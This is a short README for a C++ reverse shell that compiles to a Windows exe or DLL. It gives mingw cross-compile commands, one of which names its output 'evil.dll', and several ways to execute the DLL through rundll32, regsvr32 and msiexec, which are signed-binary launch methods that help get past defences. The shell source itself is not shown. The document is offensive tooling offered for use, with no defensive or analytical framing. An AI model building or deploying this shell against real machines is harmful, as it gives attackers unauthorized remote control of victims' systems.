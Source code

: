 # C++ Reverse Shell dll and exe

This is a simple C++ based reverse shell. You can compile exe or dll.

## Inspired by:
 - https://github.com/dev-frog/C-Reverse-Shell
 - https://github.com/limbenjamin/ReverseShellDll

## Compilation:
exe:
```
i686-w64-mingw32-g++ re.cpp -o re.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

dll:
```
x86_64-w64-mingw32-gcc -shared -o evil.dll dllmain.cpp -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

## How to run dll:
```
rundll32.exe ReverseShellDLL.dll,UniversalSoWhatEverYouTypeHereWillWork
rundll32.exe ReverseShellDLL.dll,CoCreateInstance
regsvr32.exe ReverseShellDLL.dll
msiexec /y "C:\path\to\dll\ReverseShellDLL.dll"
```

